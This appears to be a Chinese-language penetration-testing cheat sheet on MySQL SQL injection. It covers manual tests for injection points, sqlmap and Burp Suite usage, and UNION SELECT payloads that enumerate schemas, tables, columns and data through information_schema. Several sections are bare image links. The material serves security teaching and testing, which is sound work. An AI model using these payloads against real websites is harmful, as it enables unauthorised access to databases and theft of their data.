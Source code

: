 # MySQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;MySQL数据库(version>=5.0)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 注入函数
![](/assets/49A439B31D3656FE1266C2809C616748.png)
![](/assets/E33220D060B048EAA19A59928F1FFA64.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 样例代码
![](/assets/83A2168FAA2CDFB87AF8716FC9F92A3B.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 关于内置库
![](/assets/618D4E32E84852266ED812F5595453FF.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 注入流程
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.注入点识别:
```
    手工识别:  '   
              [数字型] and 1=1 / and 1=2    
              [字符型] and '1'='1 / and '1'='2
              [易过滤] and 1 like 1 / and 1 like 2
                      or 1=1 / or 1=2,注意参数要提前设置成错误参数
                  
    工具识别:  sqlmap -m filename(filename中保留检测目标)
              sqlmap -r filename(filename中为网站请求数据)
              sqlmap --crawl(sqlmap对目标网站进行爬去，然后依次测试)
              Burpsuite+SQLMap
   
    其他技巧:  出现注入点也可能在登录、搜索、留言一切产生数据交互的地方
              在参数后键入 * ,表明只对这个参数进行测试(BP中)
                
```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.信息收集:
![](/assets/B37DE04BFA39F1E89C6D4C24BE781008.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3.内容获取: 注入语句末尾添加 %23 或者 --+ 进行注释
```sql 
   字段长度: order by
   显示字段: union select null,null,强制报错显示字段
   查库信息: union select database(),version()
   查库: union select group_concat(schema_name) from information_schema.schemata,null
   查表: union select group_concat(table_name) from information_schema.tables where table_schema=database()
   查列: union select group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
   查数据: union select group_concat(null) from 库名.表名
   
   注意: 1.表名加引号，推荐改为十六进制
```







